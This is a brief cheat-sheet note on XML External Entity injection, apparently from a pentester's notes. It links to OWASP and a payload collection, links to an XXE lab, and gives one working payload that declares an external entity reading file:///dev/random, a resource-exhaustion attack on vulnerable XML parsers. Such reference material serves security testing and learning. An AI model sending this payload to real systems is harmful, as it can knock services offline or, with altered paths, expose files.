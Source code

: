 ## XXE
Reference
```
https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
```

Payload
```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```
OOB XXE Lab
```
https://github.com/fl0rde/xxe-challenge
```
